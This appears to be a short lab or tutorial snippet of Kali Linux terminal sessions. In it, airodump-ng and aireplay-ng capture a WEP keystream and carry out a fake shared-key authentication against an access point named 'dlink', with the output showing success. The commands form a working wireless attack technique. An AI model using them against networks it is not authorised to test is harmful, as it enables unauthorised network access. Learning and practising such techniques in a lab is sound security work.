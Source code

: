 ```sh
root@kali:~# airodump-ng wlan0mon --channel 4 --essid dlink --write fakeauth

 CH  4 ][ Elapsed: 0 s ][ 2017-06-05 18:04

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 84:C9:B2:6D:0C:85  -22   0       22        0    0   4  11e. WEP  WEP         dlink

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe

```

```sh
root@kali:~# aireplay-ng --fakeauth 10 wlan0mon -e dlink -y demo-01-84-C9-B2-6D-0C-85.xor
No source MAC (-h) specified. Using the device MAC (00:C0:CA:92:3C:89)
17:50:38  Waiting for beacon frame (ESSID: dlink) on channel 4
Found BSSID "84:C9:B2:6D:0C:85" to given ESSID "dlink".

17:50:38  Sending Authentication Request (Shared Key) [ACK]
17:50:38  Authentication 1/2 successful
17:50:38  Sending encrypted challenge. [ACK]
17:50:38  Authentication 2/2 successful
17:50:38  Sending Association Request [ACK]

```

```airodump-ng``` output

```sh
root@kali:~# airodump-ng wlan0mon --channel 4 --essid dlink --write fakeauth

 CH  4 ][ Elapsed: 6 s ][ 2017-06-05 17:50 ][ 140 bytes keystream: 84:C9:B2:6D:0C:85

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 84:C9:B2:6D:0C:85  -24 100       58        2    0   4  11e. WEP  WEP    SKA  dlink

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe

 84:C9:B2:6D:0C:85  00:C0:CA:92:3C:89    0    0 - 1      2        6
 84:C9:B2:6D:0C:85  F4:0F:24:33:5E:D1  -13   11e-11e     0        3

root@kali:~# ls -la fakeauth-01*
-rw-r--r-- 1 root root  144 Jun  5 17:50 fakeauth-01-84-C9-B2-6D-0C-85.xor
-rw-r--r-- 1 root root 2153 Jun  5 17:50 fakeauth-01.cap
-rw-r--r-- 1 root root  664 Jun  5 17:50 fakeauth-01.csv
-rw-r--r-- 1 root root  572 Jun  5 17:50 fakeauth-01.kismet.csv
-rw-r--r-- 1 root root 2629 Jun  5 17:50 fakeauth-01.kismet.netxml
root@kali:~#
```

